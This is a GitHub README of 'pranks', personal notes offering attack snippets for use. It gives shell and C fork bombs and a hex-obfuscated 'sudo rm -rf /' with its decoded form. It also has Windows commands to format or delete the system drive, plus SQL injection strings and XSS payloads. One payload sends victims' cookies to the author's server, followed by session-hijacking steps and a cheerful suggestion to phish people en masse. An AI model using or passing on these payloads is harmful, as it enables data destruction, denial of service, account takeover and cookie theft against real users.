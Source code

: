 # pranks
These are my notes on bad things that can happen.  The focus here is programmatic stuff, if application security is your thing then you should check out OWASP Top 10 documentation!  [Click here for the 2017 version of that.](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)
  
## Terminal Commands
For use in a terminal or a command prompt or something  
  
### Fork Bomb
A form of DOS (denial of service) attack.  
The process continually replicates itself to deplete available system resources.  
In shell, it looks like this:  
```shell
:(){ :|: & };:
```
Also possible in C like this:
```c
int main() {
    while(1)
        fork();
    return 0;
}
```
### Deletion
First off, here are some hex shenanigans:
```shell
$(echo 7375646f20726d202d7266202f202d2d6e6f2d70726573657276652d726f6f74 | xxd -r -p)
```
This is hexidecimal, but converted to ascii its:
```shell
sudo rm -rf / --no-preserve-root
```
Which will delete everything from the selected directory.  
This does the same thing in Windows (maybe):  
```shell
Format C: /q /y
```
Supposedly delete windows, but windows will probably try to stop you  
idk I never actually tested it lol
```shell
rd /s /q c:\windows
```
## Stuff for username fields and search bars
For use in the event that you suspect certain technology is being used and want to check.
### SQL Injection
May be able to return all info from users table depending on the db
```SQL
anything';SELECT * FROM users WHERE 't' = 't
```
Error based injection - sql injection to provoke an error message, hopefully revealing sensitive information like db type, etc.  
Should create a statement that's always true and note out the rest of the code with the `--` at the end.
```SQL
SELECT * FROM users WHERE id = 1 OR 1 = 1--
```
Perhaps the application is detecting that you're using a sql injection and is giving you a generic error or no error in response.  If you want to check so see if the sql injection is being processed, try adding a time delay.
```SQL
if (is_srvrolemember('sysadmin') > 0) waitfor delay '0:0:5'
```
^That's for SQLServer, use `SLEEP(seconds)` for MySQL 5
### Cross-Site Scripting
Sometimes if you enter text into a searchbox and the page displays it, it may actually be injecting your input directly into the HTML of the page.  If that's happening, you can use <script> tags to inject code into the page.  Try the below code to see if XSS is possible:
```HTML
<script>alert("You'll see this text in an alert box if so");</script>
```
If you see the above input in plaintext, the page may be putting quotes around your input.  Add a `"` or `">` to the beginning and try again.  So what's the advantage of this?  Well not only can you make a page run script, but if the page displays your search in the URL then you could write your search, take the URL, and hex the search so that you could send the link to someone and they would not see your script unless they converted the hex back to ascii.
Use this converter: https://www.rapidtables.com/convert/number/ascii-to-hex.html
```
http://www.site.com/search.php?q="><script>alert("haxorz")</script>
would instead look like this
http://www.site.com/search.php?q=22%3e%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%68%61%78%6f%72%7a%22%29%3c%2f%73%63%72%69%70%74%3e
```
This is the oldest trick in the book and is still pretty common, so if you ever recieve a link from ANYONE with a hexadecimal search query, I always recommend dropping it into a hex/ascii converter so you can inspect it just to be safe (Even if it's a website you trust).  Now simply send a million emails pretending to be someone's grandma asking how to buy a birthday present online and start stealing cookies!
### Cookie stealin
The next part of stealing cookies requires a bit more work.  First you'll need a PHP script (like the one in this repo).  Then make a file called `log.txt`.  You'll need to store the php and log files on a server (I'm not going to walk you though that part, everyone and their mom has their own server.  Ask google if you need help).  I use a Raspberry Pi for this purpose.  Your XSS injection should look something like this:
```HTML
"><script language= "JavaScript">document.location="http://yourServerIpOrDomainName.com/nameOfYourPhpScript.php?cookie=" + document.cookie;document.location="http://www.pageYouWantToExploit.com"</script>
```
This should log the cookie and then redirect the user back to the source page but if you notice this causes an infinite loop, you may need to modify it with an onclick event like this:
```HTML
"><a href="#" onclick="document.location='http://yourServerIpOrDomainName.com/yourServerIpOrDomainName.php?cookie=' +escape(document.cookie);"><Click here if you are not automatically redirected></a></script>
```
The resulting log file should look something like the one in this repo.
### What do I do with this cookie
Sometimes (on poorly made websites) your session id will be displayed in plaintext in the URL.  If that's the case, then accessing somebody else's session is as easy as replacing yours with theirs.  If that's not the case, then you could use a tool like Firebug to edit your cookie.
https://getfirebug.com/
Add or modify all your cookie's fields to match the data from the cookie in your log file and refresh the page.  Now you're logged in as your victim!  Hooray!
